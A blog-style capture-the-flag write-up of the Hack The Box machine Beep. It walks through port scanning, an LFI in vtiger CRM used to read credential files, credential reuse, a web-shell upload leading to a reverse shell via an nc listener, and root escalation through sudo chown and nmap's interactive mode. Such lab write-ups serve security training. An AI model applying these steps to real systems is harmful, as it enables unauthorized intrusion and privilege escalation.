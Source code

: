 ```yaml
---
layout: post
title:	"Beep Writeup"
date:	2018-01-07 21:30:00
categories:
    - blog
tags:
    - hackthebox
---
```


![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img0.png)

Hello,

this is my first writeup for Hack The Box platform, the machine was [Beep](https://www.hackthebox.eu/home/machines/profile/5).

### User Flag

Let's run nmap to see which services are running on the machine:

~~~
root@kali:~# nmap -sT -sV -p 1-65535 10.10.10.7 -A

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-08 12:27 EST
Nmap scan report for beep.localdomain (10.10.10.7)
Host is up (0.087s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
746/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
~~~

There were a lot of services.

On port 443 there was Apache with elastix:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img1.png)

By using dirsearch I enumerated it's directories:

~~~
root@kali:/usr/share/wordlists/SecLists/Discovery/Web_Content# dirsearch -u https://10.10.10.7/ -w raft-medium-directories.txt -e php,txt

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php, txt | Threads: 10 | Wordlist size: 30005

Error Log: /opt/dirsearch/logs/errors-18-01-08_15-16-00.log

Target: https://10.10.10.7/

[15:16:01] Starting: 
[15:16:02] 301 -  309B  - /admin  ->  https://10.10.10.7/admin/
[15:16:02] 301 -  310B  - /images  ->  https://10.10.10.7/images/
[15:16:02] 301 -  311B  - /modules  ->  https://10.10.10.7/modules/
[15:16:02] 301 -  310B  - /themes  ->  https://10.10.10.7/themes/
[15:16:03] 301 -  308B  - /help  ->  https://10.10.10.7/help/
[15:16:05] 301 -  307B  - /var  ->  https://10.10.10.7/var/
[15:16:05] 301 -  308B  - /mail  ->  https://10.10.10.7/mail/
[15:16:06] 301 -  310B  - /static  ->  https://10.10.10.7/static/
[15:16:07] 301 -  308B  - /lang  ->  https://10.10.10.7/lang/
[15:16:10] 301 -  308B  - /libs  ->  https://10.10.10.7/libs/
[15:16:19] 301 -  309B  - /panel  ->  https://10.10.10.7/panel/
[15:16:58] 301 -  311B  - /configs  ->  https://10.10.10.7/configs/
[15:23:39] 301 -  314B  - /recordings  ->  https://10.10.10.7/recordings/
[15:26:38] 301 -  313B  - /vtigercrm  ->  https://10.10.10.7/vtigercrm/
[15:26:42] 200 -    2KB - /
~~~

I found vtigercrm 5.1.0:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img2.png)

This version is vulnerable to LFI.
With [goWAPT](https://github.com/dzonerzy/goWAPT) I enumerated all the files:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img3.png)

In the /etc/passwd file we can see the user Fanis:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img4.png)

After some research on google about asterisk, I got the etc/asterisk/manager.conf file:

~~~
;
; AMI - Asterisk Manager interface
;
; FreePBX needs this to be enabled. Note that if you enable it on a different IP, you need
; to assure that this can't be reached from un-authorized hosts with the ACL settings (permit/deny).
; Also, remember to configure non-default port or IP-addresses in amportal.conf.
; 
; The AMI connection is used both by the portal and the operator's panel in FreePBX.
;
; FreePBX assumes an AMI connection to localhost:5038 by default.
;
[general]
enabled = yes
port = 5038
bindaddr = 0.0.0.0
displayconnects=no ;only effects 1.6+

[admin]
secret = jEhdIekWmdjE
deny=0.0.0.0/0.0.0.0
permit=127.0.0.1/255.255.255.0
read = system,call,log,verbose,command,agent,user,config,command,dtmf,reporting,cdr,dialplan,originate
write = system,call,log,verbose,command,agent,user,config,command,dtmf,reporting,cdr,dialplan,originate

#include manager_additional.conf
#include manager_custom.conf
~~~

I used the credential admin:jEhdIekWmdjE contained in this file to log in Elastix, Vtigercrm and FreePBX.

After some research on Google, I was able to upload a backdoor by using this [vulnerability](https://www.exploit-db.com/exploits/38345/) in vtiger crm:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img5.png)

With python I got a reverse shell and the user flag:

~~~
root@kali:~/Desktop/webshell# nc -lvp 80
listening on [any] 80 ...
connect to [10.10.14.6] from beep.localdomain [10.10.10.7] 46497
sh: no job control in this shell
sh-3.2$ ls
logo.txt
sale.jpeg
vtiger-crm-logo.jpg
webshell.php
sh-3.2$ python -c "import pty;pty.spawn('/bin/bash')"
bash-3.2$ cat /home/fanis/user.txt
cat /home/fanis/user.txt
~~~

### Root Flag

There were different ways to get the root flag:

~~~
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ sudo /bin/chown -r asterisk /root
sudo /bin/chown -r asterisk /root
/bin/chown: invalid option -- r
Try `/bin/chown --help' for more information.
bash-3.2$ sudo /bin/chown -R asterisk /root
sudo /bin/chown -R asterisk /root
bash-3.2$ cat /root/root.txt
cat /root/root.txt
~~~

Other way:

~~~
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !id
!id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
waiting to reap child: No child processes (10)
nmap>
~~~

Bye!!!
